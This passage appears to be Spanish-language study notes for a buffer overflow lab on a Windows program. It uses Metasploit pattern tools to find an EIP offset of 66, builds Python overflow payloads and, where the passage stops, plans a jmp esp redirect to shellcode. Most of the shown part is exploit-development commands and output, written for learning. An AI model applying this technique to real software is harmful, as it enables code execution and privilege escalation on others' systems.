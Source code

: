 ok con el esqueleto de script hecho ahora si encontremos el limite del buffer del input de Code, para ello usaremos una herramienta de Metasploit

```bash 
❯ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

lo que genera es una cadena de bytes aleatorios pero con un patrón, esta cadena la pondremos dentro de la variable payload

```python
payload = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
```

Y volvemos a lanzar el script:

EIP en este caso vale -> 41326341 
Buscando ese patrón con la herramienta de metasploit 

```bash
❯ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 41326341
[*] Exact match at offset 66
```


eso quiere decir que necesitamos poner 66 "A" para llenar el buffer 
![[74.png]]

Con esto modificaremos de nuevo la variable de payload con los siguientes valores para verificar que después de 66 "A" podemos  escribir en el EIP cuatro "B", esto es muy importante ya que si no lo hacemos, no sabremos donde poner la instrucción que nosotros queramos ejecutar despues del Junk de "A"´s

``` python
offset = 66
payload = b"A" * offset + b"B" * 4 + b"C"*100
```

ejecutamos de nuevo el script (recuerda reiniciar el programa en tu maquina windows)

Ojo que si es cierto, despues de 66 "A" llenamos el buffer y despues estan nuestra "B" (la B en hexadecimal es 42), pero tenemos un problema, pusimos 100 "C" y solo nos esta mostrando 10

![[75.png]]

Bien no tenemos espacio para inyectar nuestro (ojo al comunismo madre mía ) shellcode, y que se hace en este caso, irnos, buscar otra forma para elevar privilegios, no amigo mío el plan es el siguiente:

llenamos el buffer -> tenemos que hacer que EIP apunte al ESP (ESP tiene la 025DFF1C como dirección de memoria) y este apunte al inicio de nuestro buffer, pero no podemos poner la dirección de ESP directamente en el EIP necesitamos un héroe, necesitamos un jmp_esp   

## jmp esp -> ESP
